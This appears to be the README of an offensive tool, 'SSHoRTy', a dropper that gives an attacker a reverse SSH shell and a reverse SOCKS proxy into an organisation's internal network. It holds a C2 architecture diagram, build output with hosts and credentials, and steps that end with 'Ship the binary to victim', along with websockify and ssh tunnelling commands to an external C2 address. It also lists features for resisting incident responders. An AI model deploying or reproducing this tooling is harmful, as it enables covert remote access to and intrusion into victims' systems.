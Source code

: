 
# SSHoRTy

A standalone SSH Reverse shell tunnel and Reverse SOCKS Proxy Dropper for *nix systems. 
```bash
 [Organization]  ----- |Internet| ------ [Attacker C2]
 
      (Dropper)  ------ Call back ------> SSH Server -------------------|
                                                                        |  Attacker SSH shell client             
 1. Internal Host <==== SSH Client <= Reverse Shell ==== SSH Server ----|
                                                                        |  Attacker Browser+SOCKS
 2. Internal Hosts N <==== SSH Client <= Reverse SOCKS ==== SSH Server -|
    Internal Hosts N+1

```
## Features

- Full PTY support, the "real" shell
- end-to-end SSH w/key equivalency
- RSA key can be hosted offsite and fetched for operation. It is Additionally encrypted with AES in flight 
- Reverse SSH is protected on atatcker side with an additional password to avoid hijacking connections.
- Ability to protect from C2 takeover from DFIR by authorized_keys options 

Note: No SCP yet. No DNS proxying yet.

## Deployment 

Build Dropper 

`./build.sh`

```bash
[*] Building dropper
[*] Dropper Information (keep it safe):
    #######################
    Dropper File: rssh (7010788 bytes)
    SSH serverHost=192.168.88.15
    SSH serverPort=22
    SSH serverUser=tester
    SSH serverUserKeyUrl=http://127.0.0.1:9000/id_rsa_test_enc
    SSH serverUserKeyPassphrase=password1
    SSH-RT remoteCmdHost=127.0.0.1
    SSH-RT remoteCmdPort=2022
    SSH-RT remoteCmdUser=operator
    SSH-RT remoteCmdPwd=6009c967f7176e5be0bb14d5b2beb0a8905a069f
    SSH-RTS remoteSocksHost=127.0.0.1
    SSH-RTS remoteSocksPort=1080
    SSH-RT shell agent password: 6009c967f7176e5be0bb14d5b2beb0a8905a069f 
    #######################

       Usage SSH-RT: ssh operator@127.0.0.1 -p 2022 
       Usage SSH-RTS: browser SOCKS proxy: 127.0.0.1:1080 

```
1. Host dropper RSA keys on HTTP server (fetchable by URL from Company Intranet)
2. Allow SSH on C2 
3. Ship the binary to victim


## Operation

```bash
       SSH from Attacker C2: ssh operator@127.0.0.1 -p 2022 
       
       SOCKS from Attacker C2 SOCKS proxy: 127.0.0.1:1080 
       point your browser to it and/or proxifier. Note: no DNS masking yet.
```

## C2:

Unwrap websocket and forward to SSH port
```bash
./websockify.py --ssl-only  --cert=/Users/dimas/Code/go/src/sshpipe/websocketd/sslcert.pem --key=/Users/dimas/Code/go/src/sshpipe/websocketd/sslkey.pem 8080 167.99.88.24:22
``` 

Local SSH tunnel to proxy host in the background 
``` 
ssh  -N -f -q  -L 127.0.0.1:1080:127.0.0.1:1080 root@167.99.88.24
``` 
## Code used
Thanks to ref: 
- https://gist.github.com/codref/473351a24a3ef90162cf10857fac0ff3
-	 https://gist.github.com/pavel-odintsov/0208f1848952d4940b4a5976165db17f
-	 https://github.com/creack/termios/blob/master/win/win.go
-	 https://github.com/davecheney/socksie
-	 https://sosedoff.com/2015/05/25/ssh-port-forwarding-with-go.html
- https://raw.githubusercontent.com/Scalingo/go-ssh-examples/master/server_complex.go

